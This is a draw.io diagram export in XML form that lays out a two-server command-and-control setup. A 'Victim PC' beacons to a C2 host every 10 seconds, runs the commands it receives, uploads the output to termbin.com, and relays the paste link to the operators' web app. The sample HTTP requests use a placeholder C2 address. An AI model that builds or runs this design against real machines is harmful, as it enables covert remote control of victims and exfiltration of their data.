

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="2971" dy="3922" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="2" value="" style="rounded=0;whiteSpace=wrap;html=1;fontSize=22;align=left;fillColor=#647687;strokeColor=#314354;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-260" y="-836" width="870" height="481" as="geometry" />
    </mxCell>
    <mxCell id="3" value="" style="rounded=0;whiteSpace=wrap;html=1;fontSize=22;align=left;fillColor=#1ba1e2;strokeColor=#006EAF;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-240" y="-785" width="520" height="170" as="geometry" />
    </mxCell>
    <mxCell id="4" value="Victim PC" style="whiteSpace=wrap;html=1;fillColor=#a20025;strokeColor=#6F0000;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-542.5" y="-505" width="80" height="30" as="geometry" />
    </mxCell>
    <mxCell id="5" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/computer_and_terminals/Personal_Computer_with_Server.svg;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-533.7" y="-465" width="62.400000000000006" height="62.400000000000006" as="geometry" />
    </mxCell>
    <mxCell id="6" value="" style="endArrow=classic;html=1;strokeWidth=2;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-450" y="-515" as="sourcePoint" />
        <mxPoint x="-280" y="-655" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="7" value="&lt;font style=&quot;font-size: 13px ; line-height: 50%&quot;&gt;GET / HTTP/1.1&lt;br&gt;Host: &amp;lt;C2-IP&amp;gt;&lt;br&gt;Referer: host:DESKTOP-00&lt;br&gt;Cache-Control: no-cache&lt;br&gt;&lt;/font&gt;" style="text;html=1;align=left;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=#6D1F00;fontSize=22;fontColor=#ffffff;fillColor=#5E301B;fontStyle=0" vertex="1" parent="1">
      <mxGeometry x="-490" y="-772.02" width="170" height="110" as="geometry" />
    </mxCell>
    <mxCell id="8" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-602.5" y="-640.5" width="200" height="90" as="geometry" />
    </mxCell>
    <mxCell id="9" value="&lt;font style=&quot;font-size: 22px;&quot;&gt;1&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="8">
      <mxGeometry x="80" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="10" value="Send an HTTP request every 10 seconds for new commands" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="8">
      <mxGeometry y="40" width="200" height="50" as="geometry" />
    </mxCell>
    <mxCell id="11" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-220" y="-766" width="100" height="94" as="geometry" />
    </mxCell>
    <mxCell id="12" value="1st C2 Server&lt;br&gt;&quot;Commands&quot;" style="whiteSpace=wrap;html=1;fillColor=#6a00ff;strokeColor=#3700CC;fontColor=#ffffff;fontStyle=1" vertex="1" parent="11">
      <mxGeometry x="-10" width="100" height="30" as="geometry" />
    </mxCell>
    <mxCell id="13" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/computer_and_terminals/Server_Desktop.svg;fontStyle=1" vertex="1" parent="11">
      <mxGeometry x="18.700000000000045" y="40" width="42.599999999999994" height="54" as="geometry" />
    </mxCell>
    <mxCell id="14" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;fontSize=22;strokeWidth=2;fontStyle=1" edge="1" source="2" target="2" parent="1">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="15" value="" style="image;html=1;image=img/lib/clip_art/computers/Database_128x128.png;fontSize=22;align=left;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="195" y="-726" width="50" height="54" as="geometry" />
    </mxCell>
    <mxCell id="16" value="Database" style="whiteSpace=wrap;html=1;fillColor=#6a00ff;strokeColor=#3700CC;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="180" y="-766" width="80" height="30" as="geometry" />
    </mxCell>
    <mxCell id="17" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-70" y="-856" width="200" height="90" as="geometry" />
    </mxCell>
    <mxCell id="18" value="&lt;font style=&quot;font-size: 22px&quot;&gt;2&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="17">
      <mxGeometry x="80" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="19" value="Check if operator gave any new command to execute on this host" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="17">
      <mxGeometry y="40" width="200" height="50" as="geometry" />
    </mxCell>
    <mxCell id="20" value="" style="endArrow=classic;html=1;strokeWidth=2;curved=1;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-140" y="-696" as="sourcePoint" />
        <mxPoint x="180" y="-696" as="targetPoint" />
        <Array as="points">
          <mxPoint x="30" y="-816" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="21" value="" style="endArrow=classic;html=1;strokeWidth=2;curved=1;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="180" y="-685" as="sourcePoint" />
        <mxPoint x="-140" y="-685" as="targetPoint" />
        <Array as="points">
          <mxPoint x="20" y="-585" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="22" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-70" y="-620" width="200" height="90" as="geometry" />
    </mxCell>
    <mxCell id="23" value="&lt;font style=&quot;font-size: 22px&quot;&gt;3&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="22">
      <mxGeometry x="80" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="24" value="Return new command if any" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="22">
      <mxGeometry y="40" width="200" height="50" as="geometry" />
    </mxCell>
    <mxCell id="25" value="" style="endArrow=none;html=1;strokeWidth=2;startArrow=classic;startFill=1;endFill=0;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-450" y="-465" as="sourcePoint" />
        <mxPoint x="-280" y="-605" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="26" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-370" y="-555.02" width="200" height="90" as="geometry" />
    </mxCell>
    <mxCell id="27" value="&lt;font style=&quot;font-size: 22px&quot;&gt;4&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="26">
      <mxGeometry x="80" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="28" value="Return to Victim PC the command to execute" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="26">
      <mxGeometry y="40" width="200" height="50" as="geometry" />
    </mxCell>
    <mxCell id="29" value="TERMBIN" style="rounded=0;whiteSpace=wrap;html=1;fontSize=22;align=center;fillColor=#6d8764;strokeColor=#3A5431;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-270" y="-250" width="130" height="50" as="geometry" />
    </mxCell>
    <mxCell id="30" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-640" y="-395" width="200" height="90" as="geometry" />
    </mxCell>
    <mxCell id="31" value="&lt;font style=&quot;font-size: 22px&quot;&gt;5&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="30">
      <mxGeometry x="80" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="32" value="Victim executes given command" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="30">
      <mxGeometry y="40" width="200" height="50" as="geometry" />
    </mxCell>
    <mxCell id="33" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="-370" y="-220" width="200" height="120" as="geometry" />
    </mxCell>
    <mxCell id="34" value="&lt;font style=&quot;font-size: 22px&quot;&gt;6&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="33">
      <mxGeometry x="45" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="35" value="Vicitm sends the result of the command to &quot;Termbin&quot;, &lt;br&gt;which stores data in exchange of a link. This link is return to the Victim" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="33">
      <mxGeometry x="-70" y="40" width="270" height="80" as="geometry" />
    </mxCell>
    <mxCell id="36" value="" style="endArrow=classic;html=1;strokeWidth=2;startArrow=classic;startFill=1;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-450" y="-385" as="sourcePoint" />
        <mxPoint x="-280" y="-235" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="37" value="2nd C2 server&lt;br&gt;&quot;Results&quot;" style="whiteSpace=wrap;html=1;fillColor=#6a00ff;strokeColor=#3700CC;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="300" y="-514.49" width="100" height="30" as="geometry" />
    </mxCell>
    <mxCell id="38" value="" style="points=[];aspect=fixed;html=1;align=center;shadow=0;dashed=0;image;image=img/lib/allied_telesis/computer_and_terminals/Server_Desktop.svg;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="328.70000000000005" y="-474.49" width="42.599999999999994" height="54" as="geometry" />
    </mxCell>
    <mxCell id="39" value="" style="endArrow=classic;html=1;strokeWidth=2;startArrow=none;startFill=0;curved=1;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-450" y="-415" as="sourcePoint" />
        <mxPoint x="340" y="-405" as="targetPoint" />
        <Array as="points">
          <mxPoint x="220" y="-125" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="40" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="50" y="-250" width="200" height="120" as="geometry" />
    </mxCell>
    <mxCell id="41" value="&lt;font style=&quot;font-size: 22px&quot;&gt;7&lt;/font&gt;" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="40">
      <mxGeometry x="70" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="42" value="Victim sends the link to the result of the previous command to the &quot;Results&quot; server" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="40">
      <mxGeometry x="-20" y="40" width="220" height="60" as="geometry" />
    </mxCell>
    <mxCell id="43" value="&lt;font style=&quot;font-size: 13px ; line-height: 50%&quot;&gt;GET / HTTP/1.1&lt;br&gt;Host: &amp;lt;C2-IP&amp;gt;&lt;br&gt;Referer: &quot;host:DESKTOP-00 -- termbin.com/randomurl&lt;br&gt;Cache-Control: no-cache&lt;br&gt;&lt;/font&gt;" style="text;html=1;align=left;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=#314354;fontSize=22;fontColor=#ffffff;fillColor=#5E301B;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="270" y="-275" width="350" height="110" as="geometry" />
    </mxCell>
    <mxCell id="44" value="" style="endArrow=classic;html=1;strokeWidth=3;startArrow=classic;startFill=1;fillColor=#1ba1e2;strokeColor=#006EAF;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="-180" y="-786" as="sourcePoint" />
        <mxPoint x="-180" y="-936" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="45" value="" style="rounded=0;whiteSpace=wrap;html=1;fontSize=22;align=left;fillColor=#0050ef;strokeColor=#001DBC;fontColor=#ffffff;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-240" y="-1045" width="330" height="90" as="geometry" />
    </mxCell>
    <mxCell id="46" value="C2 WEB APPLICATION" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fontSize=22;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-200" y="-1015" width="250" height="30" as="geometry" />
    </mxCell>
    <mxCell id="47" value="" style="group;fontStyle=1;spacing=2;spacingTop=0;" vertex="1" connectable="0" parent="1">
      <mxGeometry x="410" y="-599.49" width="220" height="120" as="geometry" />
    </mxCell>
    <mxCell id="48" value="8" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="47">
      <mxGeometry x="90" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="49" value="An API is available on this 2nd C2 server, to send the link to the 1st C2 server" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="47">
      <mxGeometry y="40" width="220" height="60" as="geometry" />
    </mxCell>
    <mxCell id="50" value="" style="html=1;strokeWidth=1;shadow=0;dashed=0;shape=mxgraph.ios7.misc.settings;fillColor=#8F8E94;strokeColor=none;buttonText=;strokeColor2=#222222;fontColor=#222222;fontSize=8;verticalLabelPosition=bottom;verticalAlign=top;align=center;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="328.70000000000005" y="-584.49" width="50" height="50" as="geometry" />
    </mxCell>
    <mxCell id="51" value="attacker:80/" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="1">
      <mxGeometry x="-280" y="-826" width="80" height="30" as="geometry" />
    </mxCell>
    <mxCell id="52" value="" style="endArrow=classic;html=1;strokeWidth=3;startArrow=none;startFill=0;fillColor=#1ba1e2;strokeColor=#006EAF;curved=1;fontStyle=1;entryX=1;entryY=0.75;entryDx=0;entryDy=0;" edge="1" target="15" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="363.1999999999998" y="-593.4899999999998" as="sourcePoint" />
        <mxPoint x="210" y="-753.49" as="targetPoint" />
        <Array as="points">
          <mxPoint x="340" y="-685" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="53" value="" style="endArrow=classic;html=1;strokeWidth=3;startArrow=classic;startFill=1;fillColor=#1ba1e2;strokeColor=#006EAF;curved=1;fontStyle=1" edge="1" parent="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="220" y="-775" as="sourcePoint" />
        <mxPoint x="110" y="-955" as="targetPoint" />
        <Array as="points">
          <mxPoint x="200" y="-895" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="54" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="330" y="-770.51" width="260" height="120" as="geometry" />
    </mxCell>
    <mxCell id="55" value="9" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="54">
      <mxGeometry x="110" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="56" value="Server 2 sends the link to server 1, &lt;br&gt;for it to store in its database, for operators' web app" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="54">
      <mxGeometry y="40" width="260" height="60" as="geometry" />
    </mxCell>
    <mxCell id="57" value="" style="group;fontStyle=1" vertex="1" connectable="0" parent="1">
      <mxGeometry x="91.59" y="-975.02" width="350" height="120" as="geometry" />
    </mxCell>
    <mxCell id="58" value="10" style="whiteSpace=wrap;html=1;align=center;fillColor=#60a917;strokeColor=#2D7600;fontColor=#ffffff;fontSize=22;fontStyle=1" vertex="1" parent="57">
      <mxGeometry x="155" width="40" height="40" as="geometry" />
    </mxCell>
    <mxCell id="59" value="From the web app, operators assign new command for infected PCs and check the results from Termbins paste link" style="whiteSpace=wrap;html=1;align=center;fontStyle=1" vertex="1" parent="57">
      <mxGeometry y="40" width="350" height="60" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>